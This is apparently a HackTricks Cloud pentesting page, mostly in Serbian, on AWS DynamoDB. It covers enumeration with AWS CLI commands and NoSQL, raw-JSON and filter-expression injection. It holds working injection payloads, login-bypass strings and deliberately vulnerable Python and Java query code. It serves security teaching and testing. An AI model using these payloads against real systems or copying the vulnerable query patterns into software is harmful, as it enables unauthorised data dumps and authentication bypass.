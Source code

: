 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB se predstavlja kao **potpuno upravljana, serverless, key-value NoSQL baza podataka**, prilagođena za pokretanje aplikacija visokih performansi bez obzira na njihovu veličinu. Usluga obezbeđuje robusne karakteristike uključujući inherentne mere bezbednosti, neprekidne rezervne kopije, automatsku replikaciju širom više regiona, integrisano keširanje u memoriji i praktične alate za izvoz podataka.

U kontekstu DynamoDB, umesto uspostavljanja tradicionalne baze podataka, **kreiraju se tabele**. Svaka tabela zahteva specifikaciju **ključne particije** kao integralnog dela **primarnog ključa tabele**. Ovaj ključ particije, suštinski **hash vrednost**, igra ključnu ulogu u preuzimanju stavki i distribuciji podataka širom različitih hostova. Ova distribucija je ključna za održavanje i skalabilnosti i dostupnosti baze podataka. Pored toga, postoji opcija za uključivanje **ključnog sortiranja** kako bi se dodatno poboljšala organizacija podataka.

### Encryption

Podrazumevano, DynamoDB koristi KMS ključ koji \*\*pripada Amazon DynamoDB,\*\* čak ni AWS upravljani ključ koji barem pripada vašem nalogu.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Moguće je **zakazati** generisanje **rezervnih kopija tabela** ili ih kreirati na **zahtev**. Štaviše, takođe je moguće omogućiti **Point-in-time recovery (PITR) za tabelu.** Point-in-time recovery obezbeđuje kontinuirane **rezervne kopije** vaših DynamoDB podataka za **35 dana** kako bi vam pomogao da se zaštitite od slučajnih operacija pisanja ili brisanja.

Takođe je moguće izvesti **podatke tabele u S3**, ali tabela mora imati **PITR omogućeno**.

### GUI

Postoji GUI za lokalne Dynamo usluge kao što su [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), itd, koji bi mogli biti korisni: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Neautentifikovani pristup

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Post Eksploatacija

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Postojanost

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB Injekcija

### SQL Injekcija

Postoje načini za pristupanje podacima iz DynamoDB koristeći **SQL sintaksu**, stoga su tipične **SQL injekcije takođe moguće**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Injekcija

U DynamoDB različite **uslove** je moguće koristiti za preuzimanje podataka, kao u uobičajenoj NoSQL injekciji, ako je moguće **povezati više uslova za preuzimanje** podataka, mogli biste dobiti skrivene podatke (ili izvući celu tabelu).\
Ovde možete pronaći uslove koje podržava DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

Napomena da se **različiti uslovi** podržavaju ako se podaci pristupaju putem **`query`** ili putem **`scan`**.

{% hint style="info" %}
U stvari, **Query** akcije moraju da specificiraju **uslov "EQ" (jednako)** u **primarnom** ključu da bi funkcionisale, čineći ih mnogo **manje podložnim NoSQL injekcijama** (i takođe čineći operaciju veoma ograničenom).
{% endhint %}

Ako možete **promeniti poređenje** koje se vrši ili dodati nova, mogli biste preuzeti više podataka.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Raw Json injection

{% hint style="danger" %}
**Ova ranjivost se zasniva na dynamodb Scan Filter koji je sada ukinut!**
{% endhint %}

**DynamoDB** prihvata **Json** objekte za **pretragu** podataka unutar DB-a. Ako otkrijete da možete pisati u json objekt koji se šalje za pretragu, mogli biste napraviti dump DB-a, svih sadržaja.

Na primer, injektovanje u zahtev kao:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

napadač bi mogao da ubrizga nešto poput:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

ispravite "EQ" uslov tražeći ID 1000, a zatim tražeći sve podatke sa ID stringom većim od 0, što je sve.

Još jedan **ranjiv primer korišćenja prijave** mogao bi biti:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Ovo bi bilo ranjivo na:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Neki SDK-ovi omogućavaju korišćenje stringa koji označava filtriranje koje treba izvršiti kao: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Morate znati da prilikom pretrage u DynamoDB za **zamenu** **vrednosti** atributa u **filter izrazima** dok skenirate stavke, tokeni treba da **počnu** sa **`:`** karakterom. Takvi tokeni će biti **zamenjeni** stvarnom **vrednosti atributa u vreme izvršavanja**.

Stoga, prijava poput prethodne može biti zaobiđena sa nečim poput:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
